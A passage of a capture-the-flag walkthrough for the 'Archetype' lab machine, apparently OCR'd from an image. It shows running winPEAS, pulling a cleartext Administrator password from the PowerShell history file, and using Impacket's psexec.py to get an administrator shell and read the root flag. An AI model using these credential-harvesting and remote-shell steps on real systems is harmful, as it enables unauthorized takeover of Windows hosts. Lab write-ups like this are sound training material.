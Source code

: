             C:\Users\sql_svc\Desktop>dir
            dir
             Volume in drive C has no label.
             Volume Serial Number is 9565-0B4F
            
             Directory of C:\Users\sql_svc\Desktop
            
            08/18/2025  09:17 AM    <DIR>          .
            08/18/2025  09:17 AM    <DIR>          ..
            02/25/2020  07:37 AM                32 user.txt
            08/18/2025  09:17 AM         1,930,752 winPEASx64.exe
                           2 File(s)      1,930,784 bytes
                           2 Dir(s)  10,721,677,312 bytes free
________________________________________________________________________________________________________________________

### Execution ###
""" executing the winPeasx64 file we downloaded on the victim system: """
    .\winPEASx64.exe

We will read the PowerShell history file, which is the equivalent of bash_history for Linux systems

**The file ConsoleHost_history.txt can be located in the directory**
  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` 

`We got in cleartext the password for the Administrator user which is`
 (********_*dm1n!!)
________________________________________________________________________________________________________________________

### Shell ###
  "We can now use the tool psexec.py again from the Impacket suite to " 
           " get a shell as the administrator: "

┌──(kali㉿kali)-[~/Documents/Archetype/impacket/examples]
└─$ python3 psexec.py administrator@<ip>
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Requesting shares on <ip>.....
[*] Found writable share ADMIN$
[*] Uploading file otaZVEzk.exe
[*] Opening SVCManager on <ip>.....
[*] Creating service ENjp on <ip>.....
[*] Starting service ENjp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
  C:\Windows{}> 
________________________________________________________________________________________________________________________

### Exploitation ###

C:\Windows{}> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

       Directory of C:\Users\Administrator\Desktop
      
      07/27/2021  02:30 AM    <DIR>          .
      07/27/2021  02:30 AM    <DIR>          ..
      02/25/2020  07:36 AM                32 root.txt
                     1 File(s)             32 bytes
                     2 Dir(s)  10,723,348,480 bytes free

C:\Users\Administrator\Desktop> type root.txt
(--GET-THIS--YOURSELF-------------) #root flag#
